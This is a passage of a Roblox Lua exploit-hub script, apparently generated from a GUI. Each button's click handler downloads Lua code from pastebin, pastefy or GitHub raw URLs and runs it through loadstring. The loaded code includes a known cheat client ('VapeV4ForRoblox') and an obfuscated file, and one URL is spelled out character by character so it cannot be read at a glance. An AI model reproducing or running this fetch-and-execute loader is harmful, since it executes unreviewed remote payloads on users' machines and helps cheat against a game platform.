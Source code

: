	script.Parent.MouseButton1Click:Connect(function()
		loadstring(game:HttpGet("https://pastebin.com/raw/QGLvkvU7"))();
	end)
end
coroutine.wrap(URTZGRX_fake_script)()
local function QKQCUA_fake_script() -- TextButton_9.LocalScript 
	local script = Instance.new('LocalScript', TextButton_9)

	script.Parent.MouseButton1Click:Connect(function()
		loadstring(game:HttpGet("https://raw.githubusercontent.com/7GrandDadPGN/VapeV4ForRoblox/main/NewMainScript.lua", true))()
	end)
end
coroutine.wrap(QKQCUA_fake_script)()
local function KHWXDU_fake_script() -- TextButton_10.LocalScript 
	local script = Instance.new('LocalScript', TextButton_10)

	script.Parent.MouseButton1Click:Connect(function()
		loadstring(game:HttpGet("https://raw.githubusercontent.com/0Ben1/fe/main/obf_rTvXTs8F16D8D2oiLxZ62E1E9jT1we312yUyJr2h72Vwqr32l37rirU1S89hqRV7.lua.txt"))()
	end)
end
coroutine.wrap(KHWXDU_fake_script)()
local function NRPOK_fake_script() -- TextButton_11.LocalScript 
	local script = Instance.new('LocalScript', TextButton_11)

	script.Parent.MouseButton1Click:Connect(function()
		loadstring(game:HttpGet("https://pastefy.app/IpjIW7ZH/raw"))()
	end)
end
coroutine.wrap(NRPOK_fake_script)()
local function ZNSX_fake_script() -- TextButton_12.LocalScript 
	local script = Instance.new('LocalScript', TextButton_12)

	script.Parent.MouseButton1Click:Connect(function()
		loadstring(game:HttpGet('https://pastebin.com/raw/3hDQcTaD'))()
	end)
end
coroutine.wrap(ZNSX_fake_script)()
local function VBPYRZ_fake_script() -- TextButton_13.LocalScript 
	local script = Instance.new('LocalScript', TextButton_13)

	script.Parent.MouseButton1Click:Connect(function()
		loadstring(game:HttpGet(('h'..'t'..'t'..'p'..'s'..':'..'/'..'/'..'p'..'a'..'s'..'t'..'e'..'f'..'y'..'.'..'a'..'pp'..'/'..'G'..'o'..'K'..'x'..'Y'..'B'..'k'..'U'..'/'..'r'..'a'..'w'), true))()
	end)
end
coroutine.wrap(VBPYRZ_fake_script)()
local function EXSXT_fake_script() -- TextButton_14.LocalScript 
	local script = Instance.new('LocalScript', TextButton_14)

	script.Parent.MouseButton1Click:Connect(function()
		loadstring(game:HttpGet('https://pastebin.com/raw/H5yx10Jq'))()
	end)
end
coroutine.wrap(EXSXT_fake_script)()
local function WHTDRO_fake_script() -- TextButton_15.LocalScript 
	local script = Instance.new('LocalScript', TextButton_15)
